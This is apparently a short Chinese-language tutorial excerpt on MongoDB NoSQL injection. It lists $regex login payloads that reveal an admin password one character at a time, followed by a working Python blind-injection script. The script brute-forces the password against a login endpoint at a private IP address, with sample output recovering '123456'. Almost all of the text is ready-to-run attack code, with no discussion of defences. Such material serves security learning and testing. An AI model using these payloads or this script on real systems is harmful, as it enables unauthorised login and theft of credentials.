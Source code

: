 ```sql
username=admin&password[$regex]=1.{5}
username=admin&password[$regex]=12.{4}
username=admin&password[$regex]=123.{3}
username=admin&password[$regex]=1234.{2}
username=admin&password[$regex]=12345.*
username=admin&password[$regex]=123456
或
username=admin&password[$regex]=^1
username=admin&password[$regex]=^12
username=admin&password[$regex]=^123
username=admin&password[$regex]=^1234
username=admin&password[$regex]=^12345
username=admin&password[$regex]=^123456
```

下面给出一个 MongoDB 盲注脚本：

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c


# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```
